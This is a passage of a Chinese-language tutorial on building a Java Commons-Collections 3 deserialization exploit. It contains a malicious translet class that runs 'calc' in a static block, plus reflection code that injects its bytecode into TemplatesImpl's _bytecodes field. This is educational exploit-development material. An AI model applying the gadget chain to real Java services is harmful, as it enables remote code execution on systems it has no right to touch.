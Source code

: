 1. 先写一个 Calc.class 的恶意类并编译。（直接编写静态代码块就可以了，因为在类初始化的时候会自动执行代码）

```java
package CC3;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;
public class Calc extends AbstractTranslet {
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
    static {
        try {
            Runtime.getRuntime().exec("calc");
        }
        catch(IOException e){
            e.printStackTrace();
        }
    }
}

```
然后将上述编译好的恶意类装入字节数组即可。

现在还剩下 `_tfactory` 还未处理。`_tfactory` 这里比较难，我们也过一遍，这两个过完之后，写其他的就没什么问题了。

`_tfactory` 定义如下：

```java=
private transient TransformerFactoryImpl _tfactory = null;
```
默认为null，我们可以通过反射修改一下。

 `_tfactory` 的其他定义如何。

在 `TemplatesImpl.readObject()` 方法中，找到了 `_tfactory` 的初始化定义。

![](https://i.imgur.com/yjZ1w3E.png)

也就是说TemplatesImpl在反序列化的时候会自动给给_tfactory 变量赋予一个初值，这方便了我们的漏洞利用。


那我们就通过反射将之前 poc 中的 TemplatesImpl 类变量 templates 的 `_tfactory` 属性值改为如上的默认值吧，




```java
// 1. 定义恶意字节码数组并装入 data1 中
        byte [] data0 = Files.readAllBytes(Paths.get("D:\\IDEAProject\\Reflect\\target\\classes\\security\\java\\cc3\\Calc.class"));
        byte [][] data1 = {data0};

        // 2. 实例化 TemplatesImpl，并反射修改其 _bytecodes 为 data1

        TemplatesImpl templates = new TemplatesImpl();
        Class c1 = templates.getClass();

        Field field = c1.getDeclaredField("_bytecodes");
        field.setAccessible(true);

        field.set(templates,data1);

```